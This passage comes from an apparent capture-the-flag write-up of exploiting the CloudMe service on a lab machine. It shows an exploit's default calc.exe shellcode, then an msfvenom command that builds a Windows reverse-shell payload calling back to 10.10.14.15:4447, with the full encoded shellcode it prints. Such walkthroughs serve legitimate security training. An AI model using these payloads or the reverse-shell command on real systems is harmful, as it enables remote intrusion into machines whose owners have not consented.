 We see here that the exploit needs the CloudMe service running. We already have access to this service by using `chisel`, so all we have to do is run the script.

```python
#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload    = b"\xba\xad\x1e\x7c\x02\xdb\xcf\xd9\x74\x24\xf4\x5e\x33"
payload   += b"\xc9\xb1\x31\x83\xc6\x04\x31\x56\x0f\x03\x56\xa2\xfc"
payload   += b"\x89\xfe\x54\x82\x72\xff\xa4\xe3\xfb\x1a\x95\x23\x9f"
payload   += b"\x6f\x85\x93\xeb\x22\x29\x5f\xb9\xd6\xba\x2d\x16\xd8"
payload   += b"\x0b\x9b\x40\xd7\x8c\xb0\xb1\x76\x0e\xcb\xe5\x58\x2f"
payload   += b"\x04\xf8\x99\x68\x79\xf1\xc8\x21\xf5\xa4\xfc\x46\x43"
payload   += b"\x75\x76\x14\x45\xfd\x6b\xec\x64\x2c\x3a\x67\x3f\xee"
payload   += b"\xbc\xa4\x4b\xa7\xa6\xa9\x76\x71\x5c\x19\x0c\x80\xb4"
payload   += b"\x50\xed\x2f\xf9\x5d\x1c\x31\x3d\x59\xff\x44\x37\x9a"
payload   += b"\x82\x5e\x8c\xe1\x58\xea\x17\x41\x2a\x4c\xfc\x70\xff"
payload   += b"\x0b\x77\x7e\xb4\x58\xdf\x62\x4b\x8c\x6b\x9e\xc0\x33"
payload   += b"\xbc\x17\x92\x17\x18\x7c\x40\x39\x39\xd8\x27\x46\x59"
payload   += b"\x83\x98\xe2\x11\x29\xcc\x9e\x7b\x27\x13\x2c\x06\x05"
payload   += b"\x13\x2e\x09\x39\x7c\x1f\x82\xd6\xfb\xa0\x41\x93\xf4"
payload   += b"\xea\xc8\xb5\x9c\xb2\x98\x84\xc0\x44\x77\xca\xfc\xc6"
payload   += b"\x72\xb2\xfa\xd7\xf6\xb7\x47\x50\xea\xc5\xd8\x35\x0c"
payload   += b"\x7a\xd8\x1f\x6f\x1d\x4a\xc3\x5e\xb8\xea\x66\x9f"
```

This portion of the exploit is the contents of the payload if you were to run the `msfvenom` command. We are going to modify this part with our own payload to get a reverse shell.

```
[tyco㉿4YE: ~/htb/buff]$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=4447 -b '\x00\x0A\x0D' -f python

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders                               
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai                                                                                                                                                                        
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes                                    
Final size of python file: 1712 bytes
buf =  b""                                                 
buf += b"\xdb\xd3\xd9\x74\x24\xf4\x58\xbb\xc1\x90\x6c\x82\x29"
buf += b"\xc9\xb1\x52\x83\xc0\x04\x31\x58\x13\x03\x99\x83\x8e"
buf += b"\x77\xe5\x4c\xcc\x78\x15\x8d\xb1\xf1\xf0\xbc\xf1\x66"
buf += b"\x71\xee\xc1\xed\xd7\x03\xa9\xa0\xc3\x90\xdf\x6c\xe4"
buf += b"\x11\x55\x4b\xcb\xa2\xc6\xaf\x4a\x21\x15\xfc\xac\x18"
buf += b"\xd6\xf1\xad\x5d\x0b\xfb\xff\x36\x47\xae\xef\x33\x1d"
buf += b"\x73\x84\x08\xb3\xf3\x79\xd8\xb2\xd2\x2c\x52\xed\xf4"
buf += b"\xcf\xb7\x85\xbc\xd7\xd4\xa0\x77\x6c\x2e\x5e\x86\xa4"
buf += b"\x7e\x9f\x25\x89\x4e\x52\x37\xce\x69\x8d\x42\x26\x8a"
buf += b"\x30\x55\xfd\xf0\xee\xd0\xe5\x53\x64\x42\xc1\x62\xa9"
buf += b"\x15\x82\x69\x06\x51\xcc\x6d\x99\xb6\x67\x89\x12\x39"
buf += b"\xa7\x1b\x60\x1e\x63\x47\x32\x3f\x32\x2d\x95\x40\x24"
buf += b"\x8e\x4a\xe5\x2f\x23\x9e\x94\x72\x2c\x53\x95\x8c\xac"
buf += b"\xfb\xae\xff\x9e\xa4\x04\x97\x92\x2d\x83\x60\xd4\x07"
buf += b"\x73\xfe\x2b\xa8\x84\xd7\xef\xfc\xd4\x4f\xd9\x7c\xbf"
buf += b"\x8f\xe6\xa8\x10\xdf\x48\x03\xd1\x8f\x28\xf3\xb9\xc5"
buf += b"\xa6\x2c\xd9\xe6\x6c\x45\x70\x1d\xe7\x60\x8f\x13\xf8"
buf += b"\x1c\x8d\x2b\x17\x82\x18\xcd\x7d\x2c\x4d\x46\xea\xd5"
buf += b"\xd4\x1c\x8b\x1a\xc3\x59\x8b\x91\xe0\x9e\x42\x52\x8c"
buf += b"\x8c\x33\x92\xdb\xee\x92\xad\xf1\x86\x79\x3f\x9e\x56"
buf += b"\xf7\x5c\x09\x01\x50\x92\x40\xc7\x4c\x8d\xfa\xf5\x8c"
buf += b"\x4b\xc4\xbd\x4a\xa8\xcb\x3c\x1e\x94\xef\x2e\xe6\x15"
buf += b"\xb4\x1a\xb6\x43\x62\xf4\x70\x3a\xc4\xae\x2a\x91\x8e"
buf += b"\x26\xaa\xd9\x10\x30\xb3\x37\xe7\xdc\x02\xee\xbe\xe3"
```
